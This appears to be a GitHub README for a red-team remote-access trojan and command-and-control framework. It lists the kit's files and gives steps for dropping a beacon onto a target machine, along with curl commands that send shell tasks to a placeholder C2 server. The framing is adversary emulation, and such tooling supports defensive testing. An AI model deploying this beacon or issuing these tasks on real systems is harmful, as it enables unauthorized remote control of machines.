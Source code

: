 # simulated-adversary-control-agent-deployment

### Overview
Deploy a controlled, encrypted software agent designed to simulate real-world attacker behavior without risk or persistence. Leverage the **Red Team Beacon Framework**, a modular encrypted beacon + C2 simulation stack for red team operations and adversary emulation. Built for secure testing of endpoint defenses, dynamic payload staging, and encrypted tasking.

- Validate defensive controls
- Identify detection gaps
- Simulate encrypted malware tasking

### Features
-  AES-256 encrypted configuration
-  HTTPS beacon polling
-  Modular agent actions (shell, file, screen)
-  No hardcoded infrastructure — all dynamic
-  Custom tasks delivered via secure backend
-  Flask-based tasking server
-  UID-based target tracking
-  GUI-based key & config builder (rat_config_studio.py)


### Perfect For
- CISOs preparing tabletop exercises  
- Security teams validating EDR/NDR alerting  
- Managed security firms offering offensive services  
- Internal red/purple teams staging custom payloads
  
### Deployment Stack:
```
├── rat_config_studio.py
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
├── c2_server.py
```
### How to use

**generate config & key on host machine**
```
python_rat_config_studio.py
generates rat.key, rat_config.json.enc
 Click “Generate AES-256 Key”
 Save the key securely
 Input your C2 URL, interval, and enabled modules
 Click “Encrypt Config”
 Deliver `.enc` file with corresponding `.key` to the beacon loader
 Use “Decrypt & View” to inspect any `.enc` file with the matching key
```
**run the c2 server**
```
python c2_server.py
```
**Server listens on:**
```
GET /checkin/<uid> – Polling beacon
POST /task/<uid> – Set task
POST /submit/<uid> – Receive result
```
**drop the following files onto target machine**
```
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
```
**On Target Machine Run**
```
python beacon.py
```
**open cmd prompt and send a task**
```
curl -k -X POST https://<hosting_c2_server>:8080/task/<UID> ^
  -H "Content-Type: application/json" ^
  -d '{"module": "shell", "args": "whoami"}'
or use a one-liner with a task.json file you create
curl -k -X POST http://<hosting_c2_server>:8080/task/<UID> -H "Content-Type: application/json" -d @task.json
``` 
**NOTE:**  this toolset is interchangeable meaning the c2_url, interval and enabled modlues can modified.  What you see here is a simple payload simulation and you can change the module to be a payload you wish to test.  You must make the changes in the **beacon_task_handler.py** yourself!
## Disclaimer
**This tool is provided for ethical red team operations, threat simulations, and research. Do not use against systems you do not own or manage.**
